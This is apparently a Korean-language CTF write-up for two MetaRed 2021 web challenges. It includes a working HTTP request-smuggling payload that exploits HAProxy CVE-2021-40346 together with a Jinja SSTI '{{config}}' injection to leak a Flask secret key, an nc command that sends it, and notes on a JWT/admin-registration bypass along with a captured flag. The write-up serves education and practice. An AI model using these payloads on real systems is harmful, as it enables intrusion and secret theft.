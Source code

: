 ```yaml
---
title:  "MetaRed 2021 5th"
excerpt: "Syno, Center"

categories:
  - CTF
tags:
  - Syno
  - Center
  
date: 2021-12-29 12:00:00 +0900
last_modified_at: 2021-12-29 12:00:00 +0900

---
```


# Repeated Lock

#### Author : randN

#### Category : WEB

#### Description
```The students asked for help from Sr. Sergio from TI for deploying a patched version of the new 4841 proxy. This time they protected the server a little better. ```

#### Write up

해다 문제에서는 python파일과 웹 페이지가 제공됩니다.
```
from flask import Flask, render_template, render_template_string, request
import os
import utils


app = Flask(__name__)
app.config['SECRET_KEY'] = 'CTFUA{REDACTED}'


@app.route('/', methods=['GET', 'POST'])
def home():
    return render_template('home.html')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    return 'Under Construction...'


@app.route('/users')
def users():
    username = request.args.get('user', '<User>')
    if utils.filter(username):
        return render_template_string('Hello ' + username + '!')
    else:
        return 'Hello ' + username  + '!'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```
![page](https://user-images.githubusercontent.com/84657474/147018221-e3b478f5-22db-41bb-aaa5-3f6de9d8a93f.png)

Python 코드를 조금 주의 깊게 본다면 **user** 메소드에 SSTI 취약점이 존재하는것을 알 수 있지만 사용자 경로에 엑세스하려고 하면 **403 Forbidden** 이라고 뜹니다.

앱 인프라에 대한 정보를 누출하는 서버 헤더가 있으며, Challenge설명에 4841 프록시에 대한 참조가 있었습니다.

4841은 HA의 16진수 값 이므로 사용되는 프록시는 HA 프록시 입니다.

이 경우에 유용할 수 있는 취약점에 대해 일부 Google 검색을 수행하면 취약점이 나타납니다.
https://jfrog.com/blog/critical-vulnerablility-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

이제 배치된 ACL을 우회하기 위해 HTTP 요청을 생성하거나 페이로드를 작성하면됩니다.

Flask SECRET_KEY에 엑세스하고 싶기때문에 가장 간단한 페이로드를 시도해보았습니다. ```{{config}}```

```
POST /admin HTTP/1.1
Host: ctf-metared-2021.ua.pt:2011
Content-
Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Lengt: 101

Get /users?user=%7B%7Bconfig%7D%7D HTTP/1.1
h:GET /admin HTTP/1.1
HOST: ctf-metared-2021.ua.pt:2011
```

```cat poc | nc ctf-metared-202.ua.pt 2011``` 명령어를 실행하면 간단하게 Flag를 얻을 수 있었습니다.

# Vulns? None
- Category : WEB
- Author : randN

<hr>

# Solve

이 문제는 매우 간단했습니다 
일단 쿠키값에서 JWT 토큰값을 발견했습니다.

사이트로는 ```https://jwt.io/``` 를 사용하였습니다.
- 우선 JWT 토큰을 디코드해 정보를 얻어냈습니다 
<img width="500" src="https://user-images.githubusercontent.com/90122834/147406429-424965ca-45ce-400e-9bcb-8f1f2befbca3.png">

얻어 낸 값으로는
- 토큰의 값은 JWT
- 토큰 검증을 위한 signature에 사용될 알고리즘은 RS256
-  시그니쳐 검증을 위한 키 값을 확인할 수 있었습니다


이를 토대로 간단한 파이썬 코드를 짜서 플래그를 획득 할 수 있었습니다 

하지만 이 방법 말고도 다른 방법으로도 해결해봤습니다

회원가입을 할수있는 창이 있었는데 ```id : admin password : 1```을 통해서 가입후 

admin page로 acces시 플래그를 획득 할 수 있었습니다

flag : ```CTFUA{JWT_1337_N0n3_dnVsbg==}```


# 라이트업 
- [https://github.com/CYB3R-Syno/MetaRed2021-5th-Writeup](https://github.com/CYB3R-Syno/MetaRed2021-5th-Writeup)
- [https://github.com/FRWEXX/CTF-Internacional-MetaRed-2021---5th-STAGE-write-up/blob/main/WEB/Vulns%3F%20None.md](https://github.com/FRWEXX/CTF-Internacional-MetaRed-2021---5th-STAGE-write-up/blob/main/WEB/Vulns%3F%20None.md)